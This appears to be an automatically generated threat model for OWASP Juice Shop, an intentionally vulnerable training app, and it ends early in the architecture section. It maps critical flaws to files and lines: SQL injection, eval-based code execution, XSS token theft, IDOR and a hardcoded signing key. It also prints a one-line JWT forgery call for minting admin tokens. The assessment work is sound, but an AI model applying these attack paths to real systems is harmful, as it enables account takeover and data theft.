# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|---------------|
| v1 | 2026-06-19 | full | standard | sonnet-economy | _(initial)_ | 51 total | - | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 Systemic XSS](#31-systemic-xss)
   - [3.2 OAuth Implicit Flow with Derived Password](#32-oauth-implicit-flow-with-derived-password)
   - [3.3 Insecure JWT Verification](#33-insecure-jwt-verification)
   - [3.4 Weak Password Hashing MD5 Without Salt](#34-weak-password-hashing-md5-without-salt)
   - [3.5 JWT Algorithm Confusion](#35-jwt-algorithm-confusion)
   - [3.6 SQL Injection](#36-sql-injection)
   - [3.7 Insecure Direct Object Reference](#37-insecure-direct-object-reference)
   - [3.8 SQL Injection](#38-sql-injection)
   - [3.9 Hardcoded Cryptographic Key](#39-hardcoded-cryptographic-key)
   - [3.10 Role Escalation](#310-role-escalation)
   - [3.11 Remote Code Execution](#311-remote-code-execution)
   - [3.12 Mass Assignment Role Injection](#312-mass-assignment-role-injection)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (57)](#51-unauthenticated-entry-points-57)
   - [5.2 Authenticated Entry Points (53)](#52-authenticated-entry-points-53)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
   - [Components Not Individually Analyzed](#components-not-individually-analyzed)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 OWASP Juice Shop carries a cluster of Critical vulnerabilities that combine into confirmed end-to-end attack chains: a hardcoded RSA private key at `lib/insecurity.ts:23` lets any attacker mint admin-role JWTs the server accepts without question; raw SQL string interpolation at `routes/login.ts:34` and `routes/search.ts:23` allows authentication bypass and data exfiltration without credentials; and `eval()` at `routes/b2bOrder.ts:23` exposes server-side code execution through the order endpoint. Six abuse chains were verified against the codebase - all confirmed exploitable.

**Risk distribution:** 🔴 Critical: 12 · 🟠 High: 29 · 🟡 Medium: 8 · 🟢 Low: 2 · **Total: 51**


**Scope:** 6 of 7 components received full STRIDE analysis - the externally-reachable, authentication-bearing, and business-critical surface. The other 1 (lower-priority / internal) were not individually assessed at this depth (see [§1 Scope](#scope)).

<br/>

**Worst-case scenarios behind this verdict - what an attacker could do today:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Full admin takeover without credentials** — The RSA private key is committed in plaintext at `lib/insecurity.ts:23`. An attacker clones the repo and calls `jwt.sign({role:'admin'}, privateKey, {algorithm:'RS256'})` to forge a token the middleware at `lib/insecurity.ts:54` accepts as authoritative — no password required. *(🔴 [F-010](#f-010) — Hardcoded Cryptographic Key — lib/insecurity.ts:23, 🔴 [F-004](#f-004) — Insecure JWT Verification — lib/insecurity.ts:54, 🔴 [F-006](#f-006) — JWT Algorithm Confusion — lib/insecurity.ts:54)*
- **Customer data exfiltration via SQL injection** — `req.query.q` flows unescaped into a raw `models.sequelize.query()` call at `routes/search.ts:23`. UNION-based payloads dump the full Users table, including hashed passwords and order histories, to any anonymous internet user. *(🔴 [F-009](#f-009) — SQL Injection — routes/search.ts:23, 🔴 [F-007](#f-007) — SQL Injection — routes/login.ts:34)*
- **Server-side code execution through order processing** — The B2B order endpoint at `routes/b2bOrder.ts:23` passes attacker-supplied input to `eval()`. An authenticated user can execute arbitrary Node\.js code on the server, reaching the host filesystem and internal network. *(🔴 [F-012](#f-012) — Remote Code Execution — routes/b2bOrder.ts:23)*
- **Mass account compromise via stored XSS and token theft** — Admin feedback review at `administration.component.ts:78` calls `bypassSecurityTrustHtml()` and renders unsanitized HTML. An attacker injects a script that exfiltrates the JWT from `localStorage` for every administrator who views the page, as the token is stored in browser-readable storage. *(🔴 [F-001](#f-001) — Systemic XSS — administration.component.ts:78, 🟠 [F-023](#f-023) — JWT Bearer Token in localStorage — login.component.ts:101)*
- **Horizontal privilege escalation across all customer accounts** — Authorization checks on address, basket, and order routes rely on the request parameter rather than the authenticated session. Any logged-in user can substitute another user's ID to read or modify their orders and delivery addresses. *(🔴 [F-008](#f-008) — Insecure Direct Object Reference — routes/address.ts:11, 🔴 [F-011](#f-011) — Role Escalation — lib/insecurity.ts:54, 🔴 [F-013](#f-013) — Mass Assignment Role Injection — server.ts:419)*

</blockquote>

<br/>

Remediation must start with the three controls that collapse multiple attack chains simultaneously: replacing the hardcoded signing key, parameterizing the raw SQL queries, and removing the server-side `eval()` call.

**Attack-chain analysis.** 4 findings anchor 5 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-002](#f-002) — Systemic Unverified Remote Code Execution in CI Pipeline (`ci.yml:161`), 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`), 🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts:54`), 🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`). 1 of these is rated above its individual baseline as a direct result of the verified chain.

### Architectural Anti-Patterns

The defects below are structural - each spans multiple findings and requires a design change, not a point fix. See **[§7 Security Architecture](#7-security-architecture)** for the per-control detail.

- **SPA without BFF** — The Angular frontend stores the session JWT in `localStorage`, reachable by any script running in the page origin. Without a Backend-for-Frontend holding the token server-side in an `HttpOnly` cookie, stored XSS at any injection point in the SPA converts to a full session takeover — the XSS-then-localStorage chain is a confirmed abuse path in this assessment.
    - _Affected components:_ [C-01](#c-01)
    - _Findings:_ 🟠 [F-023](#f-023) — JWT stored in browser localStorage, 🔴 [F-001](#f-001) — Systemic XSS in admin panel enables token theft

- **Secrets hardcoded in source** — The RSA private key and JWT secret are committed in `lib/insecurity.ts`. Any actor with read access to the repository — including public forks — can forge arbitrarily-privileged session tokens without exploiting any other vulnerability.
    - _Findings:_ 🔴 [F-010](#f-010) — Hardcoded RSA private key used for JWT signing, 🔴 [F-029](#f-029) — Cryptographic keys served unauthenticated via public route

- **Raw SQL string interpolation** — Login and product search bypass the Sequelize ORM and concatenate `req.body` / `req.query` directly into SQL strings. The pattern recurs across multiple routes, making parameterization a codebase-wide fix rather than a single-site patch.
    - _Findings:_ 🔴 [F-007](#f-007) — SQL injection in login route, 🔴 [F-009](#f-009) — SQL injection in product search route

- **Missing server-side authorization layer** — Address, basket, and order routes resolve resource ownership from the URL parameter rather than from the authenticated session claim, with no centralized authorization middleware enforcing object-level ownership. This structural gap produces a systemic IDOR class across the data layer.
    - _Findings:_ 🔴 [F-008](#f-008) — Insecure direct object reference across resource routes, 🔴 [F-011](#f-011) — Role escalation via unguarded JWT claim, 🔴 [F-013](#f-013) — Mass assignment role injection at registration

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols.


**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑥ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.



**Threat actors.** The actors below drive the numbered attack paths in the figures above. The **Shop User** is the *victim* of client-side attacks (XSS / CSRF), not an attacker - in Figure 2 the compromise surfaces as the resulting business-impact node rather than as a separate actor box.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ④ Sensitive File & Secret Exposure.
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ③ Broken Authorization & Access Control, ⑤ Remote Code Execution (unsafe eval).

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>User-controlled strings flow into raw `models.sequelize.query()` calls and XML parser options without parameterization, allowing SQL UNION dumps and XXE file reads from unauthenticated requests. | <span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - SQL Injection (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - SQL Injection (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-019](#f-019)</span> - NoSQL Injection (`routes/showProductReviews.ts:36`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - XML External Entity Injection (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-020](#m-020)</span> — Use parameterized database queries<br/><span style="white-space:nowrap">❶ [M-022](#m-022)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>The JWT signing key is committed in source, the verification middleware accepts the `alg:none` variant, and OAuth login derives a deterministic local password from the Google email - any of these three paths yields a valid admin session without knowledge of credentials. | <span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-004](#f-004)</span> - Insecure JWT Verification (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - Weak Password Hashing `MD5` Without Salt (`lib/insecurity.ts:43`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - JWT Algorithm Confusion (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - Hardcoded Cryptographic Key (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-029](#f-029)</span> - Cryptographic Keys Served Unauthenticated (`server.ts:278`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-043](#f-043)</span> - No container image signing in CI - :1 <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-017](#m-017)</span> — Harden the authentication flow<br/><span style="white-space:nowrap">❶ [M-018](#m-018)</span> — Hash passwords with a strong, salted algorithm |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>Route authorization relies on request parameters rather than the authenticated session identity, and the registration endpoint allows role injection via mass assignment, letting any authenticated user elevate to admin or access other customers' resources. | <span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - Insecure Direct Object Reference (`routes/address.ts:11`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - Role Escalation (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Mass Assignment Role Injection (`server.ts:419`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-025](#f-025)</span> - GitHub Actions workflow missing top-level permissions (`update-news-www.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-035](#f-035)</span> - Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-039](#f-039)</span> - NoSQL Mass-Update (`routes/updateProductReviews.ts:17`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-040](#f-040)</span> - Product Modification Without Auth Guard (`server.ts:369`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-044](#f-044)</span> - GitHub Actions GITHUB_TOKEN not minimized to contents:read (`lock.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-021](#m-021)</span> — Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">❶ [M-024](#m-024)</span> — Enforce correct server-side authorization |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content. | <span style="white-space:nowrap">🟠&nbsp;[F-030](#f-030)</span> - Access Log Exposure (`server.ts:281`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-031](#f-031)</span> - Unauthenticated Encryption Key File Exposure (`server.ts:277`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-032](#f-032)</span> - CTF Flag Broadcast to Unauthenticated WebSocket (`lib/challengeUtils.ts:70`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-051](#f-051)</span> - Data disclosure (`challenges.yml:1381`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span> | 🟠 **High**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❷ [M-037](#m-037)</span> — Restrict `/support/logs` to authenticated admin users and scrub sensitive query parameters from log lines<br/><span style="white-space:nowrap">❷ [M-038](#m-038)</span> — Add security.isAuthorized middleware before `/encryptionkeys` routes |
| <a id="path-remote-code-execution"></a>⑤ | **Remote Code Execution (unsafe eval)** _(E)_<br/>The B2B order parsing endpoint passes attacker-supplied input to `eval()`, enabling authenticated users to execute arbitrary Node\.js code on the server host. | <span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Remote Code Execution (`routes/b2bOrder.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Server Compromise | <span style="white-space:nowrap">❶ [M-025](#m-025)</span> — Remove server-side evaluation of untrusted input |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>The admin feedback panel bypasses Angular's default sanitization via `bypassSecurityTrustHtml()`, and the saved login IP route persists unescaped input - both paths allow script injection that reads JWTs from `localStorage` in the victim's browser session. | <span style="white-space:nowrap">🔴&nbsp;[F-001](#f-001)</span> - Systemic XSS (`administration.component.ts:78`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-017](#f-017)</span> - Stored XSS (`routes/saveLoginIp.ts:18`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-023](#f-023)</span> - JWT Bearer Token in localStorage (`login.component.ts:101`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🔴 **Critical**<br/>Customer Session Hijack | <span style="white-space:nowrap">❶ [M-014](#m-014)</span> — Encode output instead of bypassing the framework sanitizer<br/><span style="white-space:nowrap">❷ [M-029](#m-029)</span> — Encode output instead of bypassing the framework sanitizer |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 5 fully viable ([AC-T-002](#ac-t-002), [AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 11 of 38 qualifying (51 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 11 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Angular SPA Frontend | ❶ [M-014](#m-014) — Encode output instead of bypassing the framework sanitizer | 🔴 [F-001](#f-001) — Systemic XSS (`administration.component.ts`) | Medium |
| **2** | [C-02](#c-02) — Express Backend API | ❶ [M-019](#m-019) — Replace the weak cryptographic algorithm | 🔴 [F-006](#f-006) — JWT Algorithm Confusion (`lib/insecurity.ts`) | Low |
| **3** | [C-02](#c-02) — Express Backend API | ❶ [M-022](#m-022) — Use parameterized database queries | 🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts`) | Low |
| **4** | [C-02](#c-02) — Express Backend API | ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization | 🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts`) | Medium |
| **5** | [C-02](#c-02) — Express Backend API | ❶ [M-025](#m-025) — Remove server-side evaluation of untrusted input | 🔴 [F-012](#f-012) — Remote Code Execution (`routes/b2bOrder.ts`) | Medium |
| **6** | [C-03](#c-03) — Data Layer (SQLite + File Store) | ❶ [M-018](#m-018) — Hash passwords with a strong, salted algorithm | 🔴 [F-005](#f-005) — Weak Password Hashing MD5 Without Salt (`lib/insecurity.ts`) | Medium |
| **7** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-017](#m-017) — Harden the authentication flow | 🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts`) | Low |
| **8** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-020](#m-020) — Use parameterized database queries | 🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts`) | Low |
| **9** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-023](#m-023) — Move cryptographic keys to a managed secret store | 🔴 [F-010](#f-010) — Hardcoded Cryptographic Key (`lib/insecurity.ts`) | Medium |
| **10** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-024](#m-024) — Enforce correct server-side authorization | 🔴 [F-011](#f-011) — Role Escalation (`lib/insecurity.ts`) | Medium |
| **11** | [C-01](#c-01) — Angular SPA Frontend | ❷ [M-016](#m-016) — Harden the authentication flow | 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password (`oauth.component.ts`) | High |

*27 additional P1/P2 mitigations capped from the leader-board · 13 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="18%" style="width:18%"><col width="28%" style="width:28%"><col width="13%" style="width:13%"><col width="30%" style="width:30%"><col width="11%" style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere"><strong>Hardened HTTP Stack</strong></td><td style="overflow-wrap:anywhere"><em>Browser-facing HTTP hardening - security headers, cookie flags, cross-origin policy, and abuse-protection limits.</em><br/>Anti-Clickjacking (X-Frame-Options)</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Coverage incomplete - see <a href="#7-security-architecture">§7</a> control assessment.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Observability &amp; Audit</strong></td><td style="overflow-wrap:anywhere"><em>Runtime visibility - access logging, audit trails, and operational telemetry for post-incident review.</em><br/>Logging and Audit Trail</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Coverage incomplete - see <a href="#7-security-architecture">§7</a> control assessment.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.



**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-010](#f-010) — Hardcoded Cryptographic Key — `lib/insecurity.ts:23` Hardcoded RSA private key · 🔴 [F-006](#f-006) — JWT Algorithm Confusion — `lib/insecurity.ts:54` JWT algorithm confusion · 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` Insecure JWT verification · 🔴 [F-012](#f-012) — Remote Code Execution — `routes/b2bOrder.ts:23` `eval()` in order endpoint · 🔴 [F-007](#f-007) — SQL Injection — `routes/login.ts:34` SQL injection in login · 🔴 [F-009](#f-009) — SQL Injection — `routes/search.ts:23` SQL injection in search · 🔴 [F-011](#f-011) — Role Escalation — `lib/insecurity.ts:54` Role escalation via JWT · 🔴 [F-013](#f-013) — Mass Assignment Role Injection — `server.ts:419` Mass assignment role inject · 🔴 [F-001](#f-001) — Systemic XSS — `administration.component.ts:78` Systemic XSS admin panel · 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` IDOR object reference · 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30` OAuth derived password flaw · 🔴 [F-005](#f-005) — Weak Password Hashing MD5 Without Salt — `lib/insecurity.ts:43` Weak `MD5` password hashing

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

juice-shop comprises **7** modeled components. This threat model applied full STRIDE threat analysis to **6 of 7** - the components on the externally-reachable, authentication-bearing, and business-critical surface: **Angular SPA Frontend**, **Express Backend API**, **Data Layer (SQLite + File Store)**, **CI/CD Pipeline (GitHub Actions)**, **Authentication & Session Surface**, **Real-time WebSocket Channel**. Selection criteria: frontend attack surface; crown-jewel; ci-cd / deployment; auth; internet-exposed.

The remaining **1** component(s) were **not individually analyzed** at this assessment depth (lower-priority / internal surface): B2B Order API (RCE endpoint). Re-run at a higher `--assessment-depth` to extend STRIDE coverage to them.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).

